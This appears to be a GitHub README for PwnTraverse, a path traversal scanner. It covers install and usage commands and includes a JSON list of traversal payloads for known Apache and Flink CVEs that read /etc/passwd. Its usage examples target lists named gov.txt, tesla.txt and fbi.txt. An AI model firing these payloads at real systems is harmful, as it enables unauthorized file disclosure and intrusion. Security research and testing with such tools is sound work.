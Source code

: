 

<p align="center">
  <img src="https://i.postimg.cc/vBCMJb3k/Tosca-Business-Man-Minimalist-Banner-Linked-Id-3.png" alt="PwnTraverse Logo" width="990">
</p>

**PwnTraverse** is an advanced **Path Traversal & Endpoint Vulnerability Scanner** designed for **security researchers, bug bounty hunters, and penetration testers**. This tool automates the discovery of **Path Traversal vulnerabilities** and related CVEs, helping security professionals quickly assess and report security issues.

![CLI](https://img.shields.io/badge/CLI-Tool-green)
![Python](https://img.shields.io/badge/Python-3.6%2B-blue)
![PwnTraverse](https://img.shields.io/badge/PwnTraverse-Vulnerability-Exploitation)


---

##  Key Features

- **Automated Path Traversal Detection**  
  Scans and detects path traversal vulnerabilities using a variety of payloads (`../`, double-encoding, bypass tricks).

- **Deep Directory Enumeration**  
  Performs intelligent directory brute-forcing to uncover hidden files and endpoints.

- **CVE & Endpoint Mapping**  
  Correlates discovered endpoints with known CVEs and potential LFI/RCE attack surfaces.

- **Clean & Actionable Reports**  
  Generates structured vulnerability reports for easy documentation and bug bounty submission.



## Installation

1. **Clone the Repository**
```bash
git clone https://github.com/odaysec/PwnTraverse.git
cd PwnTraverse
````

2. **Install Dependencies**
   Ensure you have Python 3.x installed, then run:

```bash
pip install -r requirements.txt
```

3. **(Optional) Create a Virtual Environment**

```bash
python3 -m venv pwntraverse-venv
source pwntraverse-venv/bin/activate   # Linux / MacOS
.\pwntraverse-venv\Scripts\activate   # Windows
```


## Usage
Run the scanner with:

```bash
python3 exploit.py --url https://target.com --wordlist wordlists/common.txt
```
```bash
python exploit.py --file gov.txt --thread 15
python exploit.py --file tesla.txt --ssl
python exploit.py --range 192.168.15.1,192.168.15.100 --thread 30
python exploit.py --file fbi.txt --thread 15 --timeout 3
python exploit.py --file gov.txt --debug
```

Available options:

* `--url` → Target URL
* `--wordlist` → Custom wordlist for directory enumeration
* `--threads` → Number of threads (default: 10)
* `--output` → Save results to file (JSON/HTML)

<p align="center">
  <img src="https://i.postimg.cc/NFYLcvZK/pwntraverse-Man-Banner.png" alt=" Logo" width="1000">
</p>

## Output

```bash
[+] Testing target: https://target.com
[+] Found potential path traversal: https://target.com/download?file=../../../../etc/passwd
[+] CVE-2022-12345 matched for endpoint: /download
[+] Report saved to: reports/scan-2025-09-21.html
```

## Roadmap
* [ ] Add more traversal payloads (double URL encoding, UTF-16 bypass)
* [ ] Add Burp Suite plugin integration
* [ ] Generate PDF reports


## Exploit Payloads
> **File:** `assets/exploits.json`

```json
{
    "CVE-2021-41773": "/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd",
    "CVE-2021-42013-0": "/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd",
    "CVE-2020-17519-0": "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
}
```
**References Payloads:** [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)


#### ⚠️ Disclaimer

```text
This project is for educational and security research purposes only.
Do not use it against systems without prior authorization.

The author(s) are not responsible for any damage caused by misuse of this tool,
including but not limited to data loss, system compromise, or legal consequences.
By using this tool, you agree to take full responsibility for your actions.
````



<p align="center">
  <a href="https://star-history.com/#odaysec/PwnTraverse&Date">
   <picture>
     <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=odaysec/PwnTraverse&type=Date&theme=dark" />
     <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=odaysec/PwnTraverse&type=Date" />
     <img alt="Star History Chart" src="https://api.star-history.com/svg?repos=odaysec/confluPwn&type=Date" />
   </picture>
  </a>
